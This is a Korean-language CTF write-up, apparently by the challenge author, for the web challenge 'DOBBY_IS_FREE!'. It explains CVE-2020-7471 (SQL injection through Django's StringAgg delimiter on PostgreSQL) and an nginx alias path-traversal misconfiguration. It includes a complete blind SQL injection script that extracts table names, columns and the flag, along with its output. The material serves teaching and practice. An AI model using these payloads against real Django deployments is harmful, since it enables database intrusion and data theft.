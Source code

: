 # DOBBY_IS_FREE!

- 출제된 CTF: [2020 Christmas CTF](https://dreamhack.io/ctf/4)
- 분야: WEB 
- 키워드: DOBBY_IS_FREE! 
- 난이도: ★★★☆☆ 

## 배경
일반적으로 Web Hacker들이 mysql에 대한 SQL Injection을 주로 공부하는걸 보니 
postgresql을 사용해서 Injection 문제를 만들어서 다양한 DB에 대한 공격을 
경험해봤으면 하는 생각에서 만들었습니다.


## 풀이
### 의도한 풀이

* Django 서비스에서 발생한 취약점이므로 이에 대한 힌트를 주기 위해 
HTTP Response에 Version이라는  커스텀 헤더를 추가하여  
`Django`, `Postgres` 버전을 명시했습니다. `Django 3.0.1` 버전에서 발생하는 SQL Injection 취약점 검색시 공개된 poc 코드등이 있습니다.
![Custom_Header Response](./CUSTOM_HEADER.png)

* 웹 사이트 접근시 게시글 목록 출력
![Post List](./list.png)

* 좌측 번호 클릭시 해당 게시글에 대한 pk와 content값을 기반으로 게시글 조회
![Post](./post.png)

* 실제 백엔드 코드
```python
results = Blog.objects.filter(pk=blog_id, content__contains=content).values('title').annotate(
    custom_field=StringAgg('content', delimiter=content)).all()
```
StringAgg함수를 통해 구분자와 함께 문자열을 붙여서 리턴해주는 함수 인데 해당 
input값에 대한 입력값 검증이 없어서 저 `content`  부분에 injection payload를 넣을수 있습니다.


### 실제 Hacker들의 풀이 
* nginx 서버 설정 실수로 인한 `Path Traversal` 취약점 발생 
```
server {

    location /static {
        autoindex on;
        alias /src/.static_root/;
    }

    location / {
        proxy_pass http://web/;
    }
    listen 80;
    server_name _;
}
```
![Path Traversal](./path_trav.png)

`http://118.67.135.137/static../` url 접근 후 서버 내 모든 파일 접근이 가능 해짐으로서 백업용 dump 파일을 읽어들여 flag를 획득
![Dump File](./dump.png)


### 취약점
CVE-2020-7471

- `Django` version  1.11,  2.2   3.0.x ≤ 3.0.2 버전에서 발견된 
   SQL Injection 취약점 CVE-2020-7471을 이용한 문제

- postgresql 관련 함수 중  `StringAgg` 함수와 관련된 코드에서 
  인자값 검사 기능이 미흡해 발생한 취약점


### 익스플로잇

- 다음은 익스플로잇 코드입니다.

```python
import requests

server = "http://118.67.135.137/post/"

id = 1
content_param = f"/?content="
content = "IS_FREE!"



def exists_check(content):
    """응답값 체크용 함수"""
    if "title" in str(content):
        return True
    else:
        return False



headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7",
    "Cache-Control": "no-cache",
    "Connection": "keep-alive",
    "Host": "127.0.0.1:8000",
    "Pragma": "no-cache",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
}

def get_table_info_from_information_schema():
    # table 개수 조회
    table_count = 0
    table_count_get = False
    while table_count_get is False:
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(SELECT%20count(table_name)%20as%20cnt%20FROM%20information_schema.tables%20WHERE%20table_schema=%27public%27)%20<=%20{table_count}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""

        table_count = table_count + 1
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            table_count = table_count - 1
            table_count_get = True


    # table list 추출
    table_row_list = []
    # public table 개수 만큼 loop
    for table_row in range(0,table_count):
        # table 명 길이 조회
        for table_name_size in range(0,50):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20length((SELECT%20(table_name)%20as%20cnt%20FROM%20information_schema.tables%20WHERE%20table_schema=%27public%27%20offset%20{table_row}%20limit%201)))%20<=%20{table_name_size}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                break
        # table 이름 사이즈 만큼 루프
        table_name = ""
        for i in range(0,table_name_size):
            for ascii in range(0,128):
                payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20ascii(substring((SELECT%20(table_name)%20as%20cnt%20FROM%20information_schema.tables%20WHERE%20table_schema=%27public%27%20offset%20{table_row}%20limit%201),%20{i},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
                url = f"{server}{id}{content_param}{payload}"
                resp = requests.get(url=url, headers=headers)
                if exists_check(resp.content):
                    table_name = table_name+str(chr(ascii))
                    break
        table_row_list.append(table_name)

    print(table_row_list)

def get_column_info_from_information_schema():
    vul_flag_column_count = 0
    table_count_get = False
    while table_count_get is False:
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(SELECT%20count(*)%20as%20cnt%20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27)%20<=%20{vul_flag_column_count}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""

        #time.sleep(1)
        vul_flag_column_count = vul_flag_column_count + 1
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            vul_flag_column_count = vul_flag_column_count - 1
            table_count_get = True

    column_name_list = []
    for i in range(0,vul_flag_column_count):
        # table 명 길이 조회
        for table_name_size in range(0,50):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20length((SELECT%20(column_name)%20as%20cnt%20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27%20offset%20{i}%20limit%201)))%20<=%20{table_name_size}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                break

        #vul_flag table column 이름 조회
        column_name = ""
        for j in range(1,table_name_size+1):
            for ascii in range(0,128):
                payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20ascii(substring((SELECT%20(column_name)%20as%20cnt%20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27%20offset%20{i}%20limit%201),%20{j},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
                url = f"{server}{id}{content_param}{payload}"
                resp = requests.get(url=url, headers=headers)
                if exists_check(resp.content):
                    column_name = column_name+str(chr(ascii))
                    break
        column_name_list.append(column_name)

    print(column_name_list)

def get_flag_from_flag_table():
    for flag_length in range(0,50):
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(SELECT%20length(string_agg(vul_flag.flag,%20%27%27))%20FROM%20vul_flag)%20<=%20{flag_length}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            break

    flag = ""
    for j in range(1,flag_length+1):
        for ascii in range(0,128):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(select%20ascii(substring((SELECT%20(flag)%20as%20cnt%20FROM%20vul_flag%20offset%200%20limit%201),%20{j},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                flag = flag+str(chr(ascii))
                break
    print(flag)

#Information Schema에서 테이블 정보 추출
#get_table_info_from_information_schema()

#테이블명 알아냈으니 information_schema에서 column 정보 추출
#get_column_info_from_information_schema()

#column정보 기반으로 flag 값 추출
get_flag_from_flag_table()

```

- 다음은 실행 결과입니다.

```
D033Y_!S_L0N3LY
```

### 레퍼런스
[Poc](https://github.com/Saferman/CVE-2020-7471)
[CVE-2020-7471](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7471)
[Django Security](https://docs.djangoproject.com/ko/2.1/topics/security/)
[Django Offical Document](https://www.djangoproject.com/weblog/2020/feb/03/security-releases/)
[Django Release History](https://docs.djangoproject.com/en/3.0/releases/security/#february-3-2020-cve-2020-7471)

